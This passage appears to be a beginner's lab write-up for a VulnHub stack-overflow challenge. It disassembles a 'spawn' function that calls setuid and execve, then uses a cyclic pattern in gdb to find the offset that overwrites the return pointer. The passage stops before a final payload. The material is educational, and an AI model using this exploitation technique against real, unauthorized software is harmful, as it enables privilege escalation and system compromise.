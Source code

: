 ```sh
0x00001299  __x86.get_pc_thunk.ax
0x000012a0  __libc_csu_init
0x00001300  __libc_csu_fini
0x00001304  _fini
```

Hey! What's that ```spawn``` function??? Let's see!

```sh
gdb-peda$ pd spawn
Dump of assembler code for function spawn:
   0x000011c9 <+0>:	push   ebp
   0x000011ca <+1>:	mov    ebp,esp
   0x000011cc <+3>:	push   ebx
   0x000011cd <+4>:	sub    esp,0x4
   0x000011d0 <+7>:	call   0x10d0 <__x86.get_pc_thunk.bx>
   0x000011d5 <+12>:	add    ebx,0x2e2b
   0x000011db <+18>:	sub    esp,0xc
   0x000011de <+21>:	push   0x3ea
   0x000011e3 <+26>:	call   0x1070 <setuid@plt>
   0x000011e8 <+31>:	add    esp,0x10
   0x000011eb <+34>:	sub    esp,0x4
   0x000011ee <+37>:	push   0x0
   0x000011f0 <+39>:	push   0x0
   0x000011f2 <+41>:	lea    eax,[ebx-0x1ff8]
   0x000011f8 <+47>:	push   eax
   0x000011f9 <+48>:	call   0x1060 <execve@plt>
   0x000011fe <+53>:	add    esp,0x10
   0x00001201 <+56>:	nop
   0x00001202 <+57>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x00001205 <+60>:	leave  
   0x00001206 <+61>:	ret  
```

Ok, so this function calls ```execve```, maybe is our shell?? Ok, let's gather up all the information and proceed to find the bug!
Eventully, we find out that there is another buffer overflow in the hello function, allowing us to control the return pointer. That's good! So our aim is to make the program jump to the ```swap``` function.

First we need to find the padding to control the return pointer.
Go to [an online cyclic pattern generato][4], copy the string, open our target with gdb and run it with the string copied as inpunt argoment:

```sh
gdb-peda$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

[...]

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xcf 
EBX: 0x62413961 ('a9Ab')
ECX: 0x1 
EDX: 0xf7fa9890 --> 0x0 
ESI: 0xffffd210 [OMITTED]
EDI: 0xf7fa8000 --> 0x1d9d6c 
EBP: 0x31624130 ('0Ab1')
ESP: 0xffffd1d0 [OMITTED]
EIP: 0x41326241 ('Ab2A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41326241
```

[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-1,290/
[2]: https://github.com/longld/peda
[3]: https://github.com/Gallopsled/pwntools
[4]: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
[5]: https://twitter.com/MrMoDDoM